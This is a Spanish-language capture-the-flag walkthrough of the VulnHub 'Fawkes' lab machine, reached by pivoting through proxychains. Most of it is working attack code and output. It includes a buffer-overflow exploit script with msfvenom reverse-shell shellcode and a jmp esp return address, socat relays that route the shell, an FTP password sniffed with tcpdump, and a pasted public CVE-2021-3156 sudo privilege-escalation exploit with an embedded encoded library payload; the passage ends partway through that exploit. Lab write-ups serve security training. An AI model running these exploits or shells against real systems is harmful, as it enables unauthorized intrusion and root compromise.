

---
# Guía paso a paso de explotación:

## Información general

- **Nombre**: Fawkes
- **Plataforma**: VulnHub
- **Descarga**:  [Fawkes](https://www.vulnhub.com/entry/harrypotter-fawkes,686/)  
- **Nivel**: Difícil
- **IP**:  [Configuración de entorno](./Configuración%20de%20entorno.md)
- **Objetivo**: Obtener acceso root para pivotar por las diferentes redes del sistema


---

## Reconocimiento


Acción: 

```bash
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -p{} --open -sT -n -Pn -v --min-rate 5000 192.168.100.129 2>&1 | grep "tcp open" 
```

Resultado:

```bash
22/tcp open  ssh
21/tcp open  ftp
80/tcp open  http
2222/tcp open  EtherNetIP-1
9898/tcp open  monkeycom
```

Explicación: se lanza un escaneo de puertos masivo y paralelo usando `seq` + `xargs -P 500` para iterar rápidamente por todos los puertos (1–65535) en 500 tareas concurrentes. Cada tarea ejecuta `nmap` para un único puerto (`-p{}`), pasando la conexión por `proxychains` porque el acceso a la red objetivo se realiza a través de un túnel (Aragog → Nagini).  

Opciones claves de `nmap` usadas: `--open` (solo mostrar puertos abiertos), `-sT` (TCP connect scan), `-n` (no DNS), `-Pn` (no ping previo), `-v` (verbose) y `--min-rate 5000` (velocidad mínima de paquetes para acelerar). La salida se filtra con `grep "tcp open"` para listar únicamente los puertos abiertos encontrados. 


---

### Fuzzing

Para poder acceder desde el navegador al host objetivo mediante el túnel de proxychains, tenemos que configurar el `foxyproxy` para que apunte a la dirección `127.0.0.1` por el puerto `8888`

[Ver instalación de Foxy-Proxy](../../Herramientas/Burp%20Suite/BurpSuite.md)

  


---

### Servicio FTP

[Ver qué es FTP](../../Machines/HTB/FTP/FTP.md)

Acción:

```bash
proxychains ftp 192.168.100.129
 passive
Passive mode: off; fallback to active mode: off.
ftp> passive
Passive mode: on; fallback to active mode: on.
ftp> dir
229 Entering Extended Passive Mode (|||21450|)
|D-chain|-<>-127.0.0.1:8888-<><>-192.168.100.129:21450-<><>-OK
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0          705996 Apr 12  2021 server_hogwarts
ls
^C
receive aborted. Waiting for remote to finish abort.
226 Directory send OK.
500 Unknown command.
73 bytes received in 00:11 (0.00 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||46313|)
|D-chain|-<>-127.0.0.1:8888-<><>-192.168.100.129:46313-<><>-OK
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0          705996 Apr 12  2021 server_hogwarts
^C
receive aborted. Waiting for remote to finish abort.
226 Directory send OK.
500 Unknown command.
73 bytes received in 01:04 (0.00 KiB/s)
ftp> bynary
?Invalid command.
ftp> binary
200 Switching to Binary mode.
ftp> get ser|D-chain|-<>-127.0.0.1:8888-<><>-192.168.100.129:20511-<><>-OK

receive aborted. Waiting for remote to finish abort.
17 bytes received in 00:05 (0.00 KiB/s)

500 Unknown command.
ftp> get server_hogwarts
local: server_hogwarts remote: server_hogwarts
229 Entering Extended Passive Mode (|||53067|)
|D-chain|-<>-127.0.0.1:8888-<><>-192.168.100.129:53067-<><>-OK
150 Opening BINARY mode data connection for server_hogwarts (705996 bytes).
100% |******************************************************************************************************************************************|   689 KiB  137.88 KiB/s    00:00 ETA^C
receive aborted. Waiting for remote to finish abort.
226 Transfer complete.
500 Unknown command.
705996 bytes received in 00:05 (121.34 KiB/s)
ftp> 
ftp> quit
```

Resultado:

```bash
ProxyChains-3.1 (http://proxychains.sf.net)
|D-chain|-<>-127.0.0.1:8888-<>-127.0.0.1:1080-<--timeout
|D-chain|-<>-127.0.0.1:8888-<><>-192.168.100.129:21-<><>-OK
Connected to 192.168.100.129.
220 (vsFTPd 3.0.3)
Name (192.168.100.129:metahumo): <anonymous>  # probamos el usuario 'anonymous'
331 Please specify the password.
Password:     # le damos a enter
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Acción:

```bash
dir
get server_hogwarts
```

Resultado:

```bash
-rwxr-xr-x    1 0        0          705996 Apr 12  2021 server_hogwarts
```

Explicación: al estar el puerto `22` abierto, probamos a acceder a él a través de `proxychains`, y usar el usuario vulnerable `anonymous`. Luego listamos recursos con `dir` o `ls` y nos descargamos el archivo disponible con `get <nombre de archivo>`

**Nota:** en caso de tener problemas de comandos usaremos el modo pasivo introduciendo el comando `passive`, cuando ponga que esta en `on` podemos usar comandos como `dir` o `get`. Para descargar tenemos que usar el modo binario si no esta activo `binary`. Para salir del servicio FTP podemos hacer `ctrl+c` 

Acción: 

```bash
chmod +x server_hogwarts
./server_hogwarts
strace ./server_hogwarts
```

Resultado:

```bash
execve("./server_hogwarts", ["./server_hogwarts"], 0x7fffd5363b10 /* 62 vars */) = 0
[ Process PID=36263 runs in 32 bit mode. ]
brk(NULL)                               = 0x93ce000
brk(0x93ce7c0)                          = 0x93ce7c0
set_thread_area({entry_number=-1, base_addr=0x93ce2c0, limit=0x0fffff, seg_32bit=1, contents=0, read_exec_only=0, limit_in_pages=1, seg_not_present=0, useable=1}) = 0 (entry_number=12)
uname({sysname="Linux", nodename="parrot", ...}) = 0
readlink("/proc/self/exe", "/home/metahumo/Escritorio/Gramsc"..., 4096) = 76
brk(0x93ef7c0)                          = 0x93ef7c0
brk(0x93f0000)                          = 0x93f0000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No existe el fichero o el directorio)
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
setsockopt(3, SOL_SOCKET, SO_REUSEPORT, [1], 4) = 0
bind(3, {sa_family=AF_INET, sin_port=htons(9898), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 3)                            = 0
accept(3, 
```

Explicación: damos permisos de ejecución, y ejecutamos, pero al quedarse como en escucha, intuimos que puede ser que este abriendo un servidor. Usamos `strace` para tratar de ver las cadenas legibles del binario compilado y vemos que hay un puerto que parece ser que se esta abriendo (además coincide con el escaneo de *nmap*), el puerto `9898` --> `sin_port=htons(9898)` del localhost --> `sin_addr=inet_addr("0.0.0.0")`

Acción:

```bash
nc localhost 9898
```

Resultado:

```bash
Welcome to Hogwart's magic portal
Tell your spell and ELDER WAND will perform the magic

Here is list of some common spells:
1. Wingardium Leviosa
2. Lumos
3. Expelliarmus
4. Alohomora
5. Avada Kedavra 

Enter your spell: 
```

Explicación: al conectarnos por el puerto que veíamos nos aparece un panel de menú

**Nota:** también podríamos haber hecho tras *nmap* `proxychains nc 192.168.100.129:9898` y obtener el mismo menú

Acción: prueba de Buffer Over Flow (BOF)

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Resultado:

```bash
zsh: segmentation fault  ./server_hogwarts
```

Explicación: introducimos más caracteres de los que el programa espera y generamos un error. Esto abre la puerta a un BOF

**Razonamiento:**  tenemos un menú en el que introducir inputs de usuario, podemos pensar que el o la programadora ha podido cometer un error de sanitización a la hora de almacenar el número de caracteres permitidos por el usuario de modo que dado el caso se acontece un error que hace que el servidor/programa crashee. Esto sería la puerta de entrada a probar un Buffer Over Flow

[Ver qué es un Buffer Over Flow](../../Buffer%20Overflow/)


---

## Explotación Buffer Over Flow


### Debugging

[Ver qué es gdb](../../Herramientas/GDB-PEDA/Instalación%20GDB-PEDA.md)

Acción:

```bash
gdb ./server_hogwarts -q
r
```

Resultado:

```bash
Reading symbols from ./server_hogwarts...
(No debugging symbols found in ./server_hogwarts)
(gdb) r
Starting program: /home/metahumo/Escritorio/GramsciXI/Machines/Pivoting/Fowkes/server_hogwarts 
```

Explicación: para poder hacer el proceso de debugging vamos a usar la herramienta `gdb`. Indicamos que queremos arrancar el programa/servidor con la herramienta de debugging y una vez iniciado usamos `r` para arrancar el programa

Acción: desde el menú del programa

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...x5
```

Resultado: en `gdb`

```bash
EIP: 0x41414141 ('AAAA')
```

Explicación: vemos que tenemos capacidad de sobrescribir el EIP



Acción: `gdb-peda`

```bash
checksec
```

Resultado:

```bash
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Explicación: que `NX` este desactivado es lo que nos va a permitir que el código que introduzcamos en el ESP o Stack sea interpretado

Acción: en `gdb-peda`

```bash
pattern create 1024
```

Resultado:

```bash
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6AsLAshAs7AsMAsiAs8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOABkABPABlABQABmABRABoABSABpABTABqABUABrABVABtABWABuABXABvABYABwABZABxAByABzA$%A$sA$BA$$A$nA$CA$-A$(A$DA$;A$)A$EA$aA$0A$FA$bA$1A$GA$cA$2A$HA$dA$3A$IA$eA$4A$JA$fA$5A$KA$gA$6A$LA$hA$7A$MA$iA$8A$NA$jA$9A$OA$kA$PA$lA$QA$mA$RA$oA$SA$pA$TA$qA$UA$rA$VA$tA$WA$uA$XA$vA$YA$wA$ZA$xA$yA$zAn%AnsAnBAn$AnnAnC'
```


Acción: `gdb-peda`

```bash
pattern offset $eip
```

Resultado:

```bash
1094205761 found at offset: 112
```

Explicación: creamos una cadena específica usando el recurso de `gdb-peda` y obtenemos el nº exacto de caracteres hasta que se sobrescribe el EIP, que es `112`

Acción:

```bash
python3 -c 'print("A"*112 + "B"*4 + "C"*100)'
```

Resultado:

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```

Explicación: generamos cadena para detectar donde se almacena los valores del ESP y ver si realmente tenemos el control del EIP

Acción:

```bash
cat /proc/sys/kernel/randomize_va_space
```

Resultado:

```bash
2
```

Explicación: es el estado de **ASLR** (Address Space Layout Randomization) en el sistema. Necesitamos que este a `0` porque ASLR aleatoriza las direcciones de memoria; poniéndolo a `0` las direcciones son previsibles y un desbordamiento puede sobrescribir con fiabilidad la dirección de retorno o los gadgets necesarios. Este fichero `/proc/sys/kernel/randomize_va_space` controla si el kernel aplica aleatorización de direcciones:

- `0` → ASLR desactivado

- `1` → ASLR parcial

- `2` → ASLR completo (valor por defecto en la mayoría de distros modernas)


Para cambiarlo a `0` (temporalmente, hasta reinicio): `sudo sysctl -w kernel.randomize_va_space=0` o directamente: `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

Acción:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.128 LPORT=5555 -b '\x00' -f py -v shellcode
```

Resultado:

```bash
shellcode =  b""
shellcode += b"\xd9\xc3\xbe\xb5\xa5\x85\x35\xd9\x74\x24\xf4"
shellcode += b"\x5a\x33\xc9\xb1\x12\x83\xea\xfc\x31\x72\x13"
shellcode += b"\x03\xc7\xb6\x67\xc0\x16\x62\x90\xc8\x0b\xd7"
shellcode += b"\x0c\x65\xa9\x5e\x53\xc9\xcb\xad\x14\xb9\x4a"
shellcode += b"\x9e\x2a\x73\xec\x97\x2d\x72\x84\xe7\x66\xe0"
shellcode += b"\xd4\x80\x74\xe9\xc1\xe3\xf0\x08\x59\x65\x53"
shellcode += b"\x9a\xca\xd9\x50\x95\x0d\xd0\xd7\xf7\xa5\x85"
shellcode += b"\xf8\x84\x5d\x32\x28\x44\xff\xab\xbf\x79\xad"
shellcode += b"\x78\x49\x9c\xe1\x74\x84\xdf"
```

Explicación: generamos payload para añadir a un script de python, este `shellcode` nos envía una reverse shell a nuestra la máquina más próxima con la que tiene comunicación que es Nagini por el puerto 5555

Acción:

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

Resultado:

```bash
nasm > <jmp ESP>   # introducimos 'jmp ESP'
00000000  FFE4              jmp esp
```

Acción: 

```bash
objdump -D server_hogwarts | grep -i "FF E4"
```

Resultado:

```bash
 8049d55:	ff e4                	jmp    *%esp
 80b322c:	81 73 f6 ff e4 73 f6 	xorl   $0xf673e4ff,-0xa(%ebx)
 80b3253:	ff 91 73 f6 ff e4    	call   *-0x1b00098d(%ecx)
 80b500f:	ff e4                	jmp    *%esp
 80b51ef:	ff e4                	jmp    *%esp
 80b546f:	ff e4                	jmp    *%esp
 80d0717:	ff e4                	jmp    *%esp
```

Explicación: 

1. Obtenemos los bytes de la instrucción `jmp esp` (`FF E4`) con `nasm_shell` para saber qué secuencia buscamos.

2. Buscamos esa secuencia en el binario con `objdump` y elegimos una dirección válida donde exista `jmp esp` (ej. `0x08049d55`).

3. Para sobrescribir EIP usamos la dirección **en little endian**: `"\x55\x9d\x04\x08"`. Cuando EIP contenga esos bytes la ejecución caerá en la instrucción `jmp esp` encontrada y saltará a la pila.


---

### Script

Acción:

```bash
nano exploit.py
```

Resultado:

```python
#!/usr/bin/env python3

import socket

offset = 112
before_eip = b"A" * offset

eip = b"\x55\x9d\x04\x08"

shellcode =  b""
shellcode += b"\xd9\xc3\xbe\xb5\xa5\x85\x35\xd9\x74\x24\xf4"
shellcode += b"\x5a\x33\xc9\xb1\x12\x83\xea\xfc\x31\x72\x13"
shellcode += b"\x03\xc7\xb6\x67\xc0\x16\x62\x90\xc8\x0b\xd7"
shellcode += b"\x0c\x65\xa9\x5e\x53\xc9\xcb\xad\x14\xb9\x4a"
shellcode += b"\x9e\x2a\x73\xec\x97\x2d\x72\x84\xe7\x66\xe0"
shellcode += b"\xd4\x80\x74\xe9\xc1\xe3\xf0\x08\x59\x65\x53"
shellcode += b"\x9a\xca\xd9\x50\x95\x0d\xd0\xd7\xf7\xa5\x85"
shellcode += b"\xf8\x84\x5d\x32\x28\x44\xff\xab\xbf\x79\xad"
shellcode += b"\x78\x49\x9c\xe1\x74\x84\xdf"

after_eip = b"\x90"*32 + shellcode

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.100.129", 9898))
s.send(payload)
s.close()
```

Explicación:

Acción: desde máquina atacante enviamos a Nagini `socat`

```bash
proxychains scp socat root@10.10.0.129:/root/socat
```

Acción: Aragog

```bash
./socat TCP-LISTEN:5556,fork TCP:192.168.1.66:443
```

Acción: Nagini

```bash
./socat TCP-LISTEN:5555,fork TCP:10.10.0.128:5556
```

Explicación: creamos túneles para el envío de la reverse shell  a través del script que explota el Buffer Over Flow en el puerto 9898 de la máquina Fawkes

Acción:

```bash
nc -lvnp 443
proxychains python3 exploit.py
```

Resultado:

```bash
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.82] 60564
whoami
harry
```

Explicación: ganamos acceso al sistema Fawkes


---

## Post Explotación

[Aplicar tratamiento de TTY](../Tratamiento%20de%20la%20TTY/TTY%20Interactiva.md)

Acción:

```bash
ip a
```

Resultado:

```bash
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
```

Explicación: hemos ganado acceso, pero por la IP que nos muestra tenemos que estar en un contenedor

Acción:

```bash
sudo -l
sudo /bin/sh
whoami
```

Resultado:

```bash
User harry may run the following commands on 2b1599256ca6:
    (ALL) NOPASSWD: ALL

root
```

Explicación: ganamos acceso como root en el Docker

Acción:

```bash
cd /root/
ls
cat note.txt
```

Resultado:

```bash
Hello Admin!!

We have found that someone is trying to login to our ftp server by mistake.You are requested to analyze the traffic and figure out the user.
```

Explicación: por lo visto hay un usuario que trata de conectarse vía ftp, podemos usar `tcpdump` para ver el tráfico recibido

Acción:

```bash
tcpdump -i eth0 port ftp or ftp-data
```

Resultado:

```bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
00:36:01.358023 IP 172.17.0.1.39436 > 2b1599256ca6.21: Flags [S], seq 3981230313, win 64240, options [mss 1460,sackOK,TS val 990677342 ecr 0,nop,wscale 7], length 0
00:36:01.358034 IP 2b1599256ca6.21 > 172.17.0.1.39436: Flags [S.], seq 733414387, ack 3981230314, win 65160, options [mss 1460,sackOK,TS val 1995379689 ecr 990677342,nop,wscale 7], length 0
00:36:01.358048 IP 172.17.0.1.39436 > 2b1599256ca6.21: Flags [.], ack 1, win 502, options [nop,nop,TS val 990677342 ecr 1995379689], length 0
00:36:01.358628 IP 2b1599256ca6.21 > 172.17.0.1.39436: Flags [P.], seq 1:21, ack 1, win 510, options [nop,nop,TS val 1995379690 ecr 990677342], length 20: FTP: 220 (vsFTPd 3.0.3)
00:36:01.358661 IP 172.17.0.1.39436 > 2b1599256ca6.21: Flags [.], ack 21, win 502, options [nop,nop,TS val 990677343 ecr 1995379690], length 0
00:36:01.358712 IP 172.17.0.1.39436 > 2b1599256ca6.21: Flags [P.], seq 1:15, ack 21, win 502, options [nop,nop,TS val 990677343 ecr 1995379690], length 14: FTP: USER neville
00:36:01.358714 IP 2b1599256ca6.21 > 172.17.0.1.39436: Flags [.], ack 15, win 510, options [nop,nop,TS val 1995379690 ecr 990677343], length 0
00:36:01.358732 IP 2b1599256ca6.21 > 172.17.0.1.39436: Flags [P.], seq 21:55, ack 15, win 510, options [nop,nop,TS val 1995379690 ecr 990677343], length 34: FTP: 331 Please specify the password.
00:36:01.358750 IP 172.17.0.1.39436 > 2b1599256ca6.21: Flags [P.], seq 15:30, ack 55, win 502, options [nop,nop,TS val 990677343 ecr 1995379690], length 15: FTP: PASS bL!Bsg3k
00:36:01.400488 IP 2b1599256ca6.21 > 172.17.0.1.39436: Flags [.], ack 30, win 510, options [nop,nop,TS val 1995379732 ecr 990677343], length 0
00:36:04.623412 IP 2b1599256ca6.21 > 172.17.0.1.39436: Flags [P.], seq 55:77, ack 30, win 510, options [nop,nop,TS val 1995382955 ecr 990677343], length 22: FTP: 530 Login incorrect.
00:36:04.623493 IP 172.17.0.1.39436 > 2b1599256ca6.21: Flags [P.], seq 30:36, ack 77, win 502, options [nop,nop,TS val 990680608 ecr 1995382955], length 6: FTP: QUIT
00:36:04.623499 IP 2b1599256ca6.21 > 172.17.0.1.39436: Flags [.], ack 36, win 510, options [nop,nop,TS val 1995382955 ecr 990680608], length 0
00:36:04.623516 IP 2b1599256ca6.21 > 172.17.0.1.39436: Flags [P.], seq 77:
```

Explicación: usuario `neville` contraseña `bL!Bsg3k`. Como vimos que tiene el puerto 22 abierto, podemos tratar de loguearnos con este usuario por proxychains

Acción:

```bash
proxychains ssh neville@192.168.100.129
hostname -I
```

Resultado:

```bash
192.168.100.129 172.17.0.1 
```

Explicación: conseguimos acceso a la máquina Fawkes, escapando del contenedor. Ahora podemos elevar nuestros privilegios a usuario root, pero como vemos esta máquina no tiene más alcance del que ya teníamos, lo que indica que el camino para seguir pivotando pasa por acceder a la otra dirección IP que teníamos visibilidad desde Nagini, la `192.168.100.132` que es la **Matrix 1**

[Ver Matrix 1 explotación](Matrix%20explotación.md)

Acción:

```bash
cd /
find \-perm -4000 2>/dev/null
sudo --version
```

Resultado:

```bash
./usr/local/bin/sudo
./usr/bin/newgrp
...
Sudo version 1.8.27
```

Explicación: buscamos archivos con permisos SUID desde la raíz del sistema. Encontramos el binario `sudo`, vemos que su versión es vulnerable por un CVE público. [Usamos este exploit](https://raw.githubusercontent.com/worawit/CVE-2021-3156/refs/heads/main/exploit_nss.py)

Acción: modificamos la ruta de sudo `/usr/local/bin/sudo` que aparece en el script por a nuestra del sistema (usar `which sudo` para localizar la ruta de tu sistema)

```python
#!/usr/bin/python3
'''
Exploit for CVE-2021-3156 with overwrite struct service_user by sleepya

This exploit requires:
- glibc with tcache
- nscd service is not running

Tested on:
- Ubuntu 18.04
- Ubuntu 20.04
- Debian 10
- CentOS 8
'''
import os
import subprocess
import sys
from ctypes import cdll, c_char_p, POINTER, c_int, c_void_p

SUDO_PATH = b"/usr/local/bin/sudo"

libc = cdll.LoadLibrary("libc.so.6")

# don't use LC_ALL (6). it override other LC_
LC_CATS = [
	b"LC_CTYPE", b"LC_NUMERIC", b"LC_TIME", b"LC_COLLATE", b"LC_MONETARY",
	b"LC_MESSAGES", b"LC_ALL", b"LC_PAPER", b"LC_NAME", b"LC_ADDRESS",
	b"LC_TELEPHONE", b"LC_MEASUREMENT", b"LC_IDENTIFICATION"
]

def check_is_vuln():
	# below commands has no log because it is invalid argument for both patched and unpatched version
	# patched version, error because of '-s' argument
	# unpatched version, error because of '-A' argument but no SUDO_ASKPASS environment
	r, w = os.pipe()
	pid = os.fork()
	if not pid:
		# child
		os.dup2(w, 2)
		execve(SUDO_PATH, [ b"sudoedit", b"-s", b"-A", b"/aa", None ], [ None ])
		exit(0)
	# parent
	os.close(w)
	os.waitpid(pid, 0)
	r = os.fdopen(r, 'r')
	err = r.read()
	r.close()
	
	if "sudoedit: no askpass program specified, try setting SUDO_ASKPASS" in err:
		return True
	assert err.startswith('usage: ') or "invalid mode flags " in err, err
	return False

def create_libx(name):
	so_path = 'libnss_'+name+'.so.2'
	if os.path.isfile(so_path):
		return  # existed
	
	so_dir = 'libnss_' + name.split('/')[0]
	if not os.path.exists(so_dir):
		os.makedirs(so_dir)
	
	import zlib
	import base64

	libx_b64 = 'eNqrd/VxY2JkZIABZgY7BhBPACrkwIAJHBgsGJigbJAydgbcwJARlWYQgFBMUH0boMLodAIazQGl\neWDGQM1jRbOPDY3PhcbnZsAPsjIjDP/zs2ZlRfCzGn7z2KGflJmnX5zBEBASn2UdMZOfFQDLghD3'
	with open(so_path, 'wb') as f:
		f.write(zlib.decompress(base64.b64decode(libx_b64)))
	#os.chmod(so_path, 0o755)

def check_nscd_condition():
	if not os.path.exists('/var/run/nscd/socket'):
		return True # no socket. no service
	
	# try connect
	import socket
	sk = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
	try:
		sk.connect('/var/run/nscd/socket')
	except:
		return True
	else:
		sk.close()

	with open('/etc/nscd.conf', 'r') as f:
		for line in f:
			line = line.strip()
			if not line.startswith('enable-cache'):
				continue # comment
			service, enable = line.split()[1:]
			# in fact, if only passwd is enabled, exploit with this method is still possible (need test)
			# I think no one enable passwd but disable group
			if service == 'passwd' and enable == 'yes':
				return False
			# group MUST be disabled to exploit sudo with nss_load_library() trick
			if service == 'group' and enable == 'yes':
				return False
			
	return True

def get_libc_version():
	output = subprocess.check_output(['ldd', '--version'], universal_newlines=True)
	for line in output.split('\n'):
		if line.startswith('ldd '):
			ver_txt = line.rsplit(' ', 1)[1]
			return list(map(int, ver_txt.split('.')))
	return None

def check_libc_version():
	version = get_libc_version()
	assert version, "Cannot detect libc version"
	# this exploit only works which glibc tcache (added in 2.26)
	return version[0] >= 2 and version[1] >= 26

def check_libc_tcache():
	libc.malloc.argtypes = (c_int,)
	libc.malloc.restype = c_void_p
	libc.free.argtypes = (c_void_p,)
	# small bin or tcache
	size1, size2 = 0xd0, 0xc0
	mems = [0]*32
	# consume all size2 chunks
	for i in range(len(mems)):
		mems[i] = libc.malloc(size2)
		
	mem1 = libc.malloc(size1)
	libc.free(mem1)
	mem2 = libc.malloc(size2)
	libc.free(mem2)
	for addr in mems:
		libc.free(addr)
	return mem1 != mem2

def get_service_user_idx():
	'''Parse /etc/nsswitch.conf to find a group entry index
	'''
	idx = 0
	found = False
	with open('/etc/nsswitch.conf', 'r') as f:
		for line in f:
			if line.startswith('#'):
				continue # comment
			line = line.strip()
			if not line:
				continue # empty line
			words = line.split()
			if words[0] == 'group:':
				found = True
				break
			for word in words[1:]:
				if word[0] != '[':
					idx += 1
			
	assert found, '"group" database is not found. might be exploitable but no test'
	return idx

def get_extra_chunk_count(target_chunk_size):
	# service_user are allocated by calling getpwuid()
	# so we don't care allocation of chunk size 0x40 after getpwuid()
	# there are many string that size can be varied
	# here is the most common
	chunk_cnt = 0
	
	# get_user_info() -> get_user_groups() ->
	gids = os.getgroups()
	malloc_size = len("groups=") + len(gids) * 11
	chunk_size = (malloc_size + 8 + 15) & 0xfffffff0  # minimum size is 0x20. don't care here
	if chunk_size == target_chunk_size: chunk_cnt += 1
	
	# host=<hostname>  (unlikely)
	# get_user_info() -> sudo_gethostname()
	import socket
	malloc_size = len("host=") + len(socket.gethostname()) + 1
	chunk_size = (malloc_size + 8 + 15) & 0xfffffff0
	if chunk_size == target_chunk_size: chunk_cnt += 1
	
	# simply parse "networks=" from "ip addr" command output
	# another workaround is bruteforcing with number of 0x70
	# policy_open() -> format_plugin_settings() ->
	# a value is created from "parse_args() -> get_net_ifs()" with very large buffer
	try:
		import ipaddress
	except:
		return chunk_cnt
	cnt = 0
	malloc_size = 0
	proc = subprocess.Popen(['ip', 'addr'], stdout=subprocess.PIPE, bufsize=1, universal_newlines=True)
	for line in proc.stdout:
		line = line.strip()
		if not line.startswith('inet'):
			continue
		if cnt < 2: # skip first 2 address (lo interface)
			cnt += 1
			continue;
		addr = line.split(' ', 2)[1]
		mask = str(ipaddress.ip_network(addr if sys.version_info >= (3,0,0) else addr.decode("UTF-8"), False).netmask)
		malloc_size += addr.index('/') + 1 + len(mask)
		cnt += 1
	malloc_size += len("network_addrs=") + cnt - 3 + 1
	chunk_size = (malloc_size + 8 + 15) & 0xfffffff0
	if chunk_size == target_chunk_size: chunk_cnt += 1
	proc.wait()
	
	return chunk_cnt

def execve(filename, argv, envp):
